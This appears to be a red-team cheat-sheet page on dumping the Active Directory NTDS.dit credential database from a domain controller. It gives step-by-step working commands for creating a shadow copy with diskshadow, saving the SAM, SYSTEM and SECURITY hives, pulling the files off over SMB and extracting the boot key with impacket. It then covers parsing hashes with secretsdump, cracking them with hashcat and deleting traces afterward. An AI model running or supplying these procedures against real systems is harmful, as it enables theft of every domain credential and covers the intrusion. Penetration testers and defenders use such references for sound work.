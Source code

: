 ```yaml
---
description: Windows NT Directory Services
---
```


# NTDS

- [https://github.com/MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
- [https://github.com/dionach/NtdsAudit](https://github.com/dionach/NtdsAudit)




## Shadow Disk



### Create via Diskshadow

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create a shadow disk:

```
cd \Windows\Temp
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

{% code title="add_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```
{% endcode %}



### Exfiltrate over SMB

Create a network share with anonymous access and put there all we need:

```
cd \Windows\Temp
copy w:\Windows\NTDS\ntds.dit ntds.dit
cmd /c reg.exe save hklm\system system.hive
cmd /c reg.exe save hklm\sam sam.hive
cmd /c reg.exe save hklm\security security.hive
```

Connect to the share and grab the files:

```
$ smbclient.py MEGACORP/administrator:'Passw0rd!'@192.168.1.11
use C$
cd windows/temp
get ntds.dit
get system.hive
get sam.hive
get security.hive
```



### Clean Up

Remove the shadow volume:

```
cd \Windows\Temp
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

{% code title="delete_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```
{% endcode %}

Remove the share and all the traces:

```
cd \Windows\Temp
rm ntds.dit
rm system.hive
rm sam.hive
rm security.hive
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```




## Raw NTDS.dit Copy

- [https://github.com/3gstudent/ntfsDump](https://github.com/3gstudent/ntfsDump)
- [https://github.com/RedCursorSecurityConsulting/NTFSCopy](https://github.com/RedCursorSecurityConsulting/NTFSCopy)

Obtain a copy of NTDS.dit:

```
PS > Invoke-NTFSCopy C:\Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
```

Parse on-site in conjunction with [NtdsAudit](https://github.com/dionach/NtdsAudit):

```
PS > esentutl.exe /p "C:\Windows\Temp\ntds.dit" /!10240 /8 /o
PS > reg.exe save HKLM\SYSTEM system.hive
PS > .\NtdsAudit.exe ntds.dit -s system.hive -p hashes.txt -u users.csv --dump-reversible cleartext.txt
```

Parse on-site in conjunction with [secretsdump.exe](https://github.com/Qazeer/OffensivePythonPipeline/blob/main/binaries/impacket/secretsdump_windows.exe):

```python
from binascii import hexlify
from impacket.smbconnection import SMBConnection
from impacket.examples.secretsdump import RemoteOperations
hostname = 'DC01.megacorp.local'
password = '<PASSWORD>'
nthash = '' if password else '<NTHASH>'
domain = hostname.split('.', 1)[1]
smbConn = SMBConnection(remoteName=hostname, remoteHost=hostname)
smbConn.login(user='snovvcrash', password='Passw0rd!', domain=domain, nthash=nthash)
remOps = RemoteOperations(smbConnection=smbConn, doKerberos=False)
remOps.enableRegistry()
bootKey = remOps.getBootKey()
print(hexlify(bootKey).decode())
remOps.finish()
# .\secretsdump.exe LOCAL -ntds C:\windows\Temp\ntds.dit -bootkey <BOOTKEY>
```




## Parse NTDS.dit

Parse with [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py):

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL > ntds.txt
$ cat ntds.txt | grep -a aad3b | grep -i 'Status=Enabled' | grep -v 31d6c | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F: '{print $1":"$4}' | sort -u > ntds.in
$ hashcat -m 1000 -a 0 -w 4 -O --session=ntds -o ntds.out ntds.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

Parse with [aesedb](https://github.com/skelsec/aesedb) (faster but less informative):

```
$ antdsparse <BOOTKEY> ntds.dit -o ntds.txt --progress
$ antdsparse system.hive ntds.dit -o ntds.txt --progress
```



### Reversible Encryption

- [https://adsecurity.org/?p=2053](https://adsecurity.org/?p=2053)
- [https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/](https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/)

Check if enabled globally:

- gpmc.msc > Default Domain Policy > *Computer Configuration* > *Policies* > *Windows Settings* > *Security Settings* > *Account Policies* > *Password Policy* > *Store passwords using reversible encryption* > *Enabled* ✔

Check if enabled for specific users:

```
PS > Get-ADUser -Filter {userAccountControl -band 128} -Properties userAccountControl | ft name,samAccountName,userAccountControl | tee users-revenc.txt
```

{% hint style="info" %}
When DCSyncing such users, a cleartext password will be obtained.
{% endhint %}
